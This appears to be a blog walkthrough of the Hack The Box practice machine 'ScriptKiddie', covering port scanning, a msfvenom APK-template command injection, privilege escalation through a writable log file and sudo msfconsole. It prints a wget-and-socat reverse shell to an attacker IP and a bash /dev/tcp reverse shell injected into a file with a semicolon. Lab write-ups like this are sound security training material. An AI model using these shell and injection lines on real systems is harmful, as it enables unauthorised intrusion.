 ```yaml
---
layout: post
title: ScriptKiddie
---
```


**ScriptKiddie is an easy machine from Hack The Box.**

### Enumeration

I start with a quick `nmap` scan to enumerate open ports.

`nmap -sC -sV -oN nmap/basic scriptkiddie.htb`

The results indicate a pretty barebones machine, only ports 22 and 5000 are open.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I ran a couple `gobuster` searches in the background to enumerate web directories or possible subdomains but I didn't find anything

The webpage appeared to have a few different functionalities. It seems like it will run an nmap scan, create msfvenom payloads or search via searchsploit for user inputs.

![Webpage](https://user-images.githubusercontent.com/60187707/120905511-1fcd6000-c618-11eb-84a6-366d172a44fb.png)

### Initial Foothold
After searching for information about the backend system, I found an RCE script for Werkzeuk but it did not seem to work as the debugging function in question is not enabled on the server.

![Pasted image 20210603130610](https://user-images.githubusercontent.com/60187707/120905665-4213ad80-c619-11eb-8fe3-241bcfae6cd0.png)

The `msfvenom` widget has Android templates as an optional file upload and, after a bit of googling, I found [this script](https://packetstormsecurity.com/files/161200/Metasploit-Framework-6.0.11-Command-Injection.html)

Essentially, it exploits a vulnerability in `msfvenom` that will execute a payload hidden inside a `.apk` template. I used `apk.py` to generate the malicious package.

![Pasted image 20210604102216](https://user-images.githubusercontent.com/60187707/120905729-b5b5ba80-c619-11eb-899b-de82a6a4ec47.png)

I tried a few various bash reverse shells as my payload, but using `socat` was what got me onto the machine.

`wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444
`

![Pasted image 20210604101927](https://user-images.githubusercontent.com/60187707/120905760-e695ef80-c619-11eb-92a8-b21eb382e9e2.png)

I am on as the user `kid`.

#### Privesc
I did some poking around the filesystem, ran `linPEAS`, and found indications of a possible `sudo` vulnerability, but that ended up being a dead-end.

Inside the user `pwn` directory, there is a script called `scanlosers.sh`. As far as I can tell, the script takes data from the file `/home/kid/logs/hackers` to run an `nmap` command.

![Pasted image 20210604121547](https://user-images.githubusercontent.com/60187707/120905835-789df800-c61a-11eb-8ea6-82ec65f9caf2.png)

I can write to `hackers` because `kid` is the owner.

![Pasted image 20210604121933](https://user-images.githubusercontent.com/60187707/120905840-8489ba00-c61a-11eb-9f3a-5468e8dd6589.png)

So, I started a listener and used `echo` to place a reverse shell into `hackers`, with a `;` at the beginning to start a new command and a `#` at the end to comment out the rest of the script.

`echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1' #" >> hackers`

![Pasted image 20210604122051](https://user-images.githubusercontent.com/60187707/120905898-d7fc0800-c61a-11eb-851d-4222c175fb13.png)

Now, I'm on as user `pwn`.

I ran a quick `sudo -l` to check `pwn`'s permissions.

![Pasted image 20210604122204](https://user-images.githubusercontent.com/60187707/120905913-f4984000-c61a-11eb-89c4-dbd399b3a703.png)

The results indicate that I can run `msfconsole` as `root` without a password.

Checking the `msfconsole` help page, I found a `-x` flag that will execute console commands.

`sudo msfconsole -x su`

![Pasted image 20210604122329](https://user-images.githubusercontent.com/60187707/120905920-04178900-c61b-11eb-9dfc-d12292cab333.png)

Root access!
